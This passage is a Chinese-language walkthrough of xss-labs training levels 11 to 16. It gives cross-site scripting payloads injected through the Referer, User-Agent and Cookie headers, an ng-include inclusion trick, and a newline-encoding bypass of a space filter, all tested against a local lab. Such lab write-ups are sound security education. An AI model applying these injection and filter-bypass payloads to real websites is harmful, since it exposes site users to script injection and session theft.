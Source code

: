 HTTP Referer 被获取到 str11 → str22 → str33 → 执行alert()。抓取post请求包修改Referer头即可

payload

```
Referer: " type="text" onclick="alert('xss')
```

## level 12

和11的思路类似，发现有 `<input name="t_ua" value="Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0" type="hidden">` ，所以猜测其余步骤一致，注入位置换成HTTP报文的User-Agent字段

payload

```
User-Agent: " type="text" onmousemove="alert(1)
```

## level 13

同理，这次换成cookie，注意cookie里有变量“user”，是赋值给它别把它删了

payload

```
Cookie: user=" type="text" onmousemove="alert(1)
```

## *level 14

好像是说跳转后的那个网站过期了就不行了

## level 15

这一关的html标签多了个”ng-include‘：用于包含外部的 HTML 文件。包含的内容将作为指定元素的子节点。ng-include 属性的值可以是一个表达式，返回一个文件名。默认情况下，包含的文件需要包含在同一个域名下。

所以利用别的关卡，比如level1，先测试一下 `http://172.25.106.44/xsslabs/level15.php?src='level1.php'` ，此时出现了level1的图，说明有用。

payload

```
?src='level1.php?name=<img src=1 onerror=alert(1)>'
```

> 这里不能直接用 `<script>alert(1)</script>` 这种直接弹窗的，而是要用点击触发的。这里原因没搞清楚为什么
>
> ng-include文件包涵，可以无视html实体化

## level 16

> 火狐浏览器我遇到了问题，它的网页前端和edge显示的不一样。火狐看不出来过滤但是edge可以，多注意一下

拿 `?keyword=" ' sRc DaTa OnFocus OnmOuseOver OnMouseDoWn P <sCriPt> <a hReF=javascript:alert()> &#106; ` 试一下发现script实体化了，空格、符号等也被过滤了。用 %0a换行替代一下空格试试

paylaod

```
?keyword=<img%0asrc=1%0aonerror=alert(1)>
```

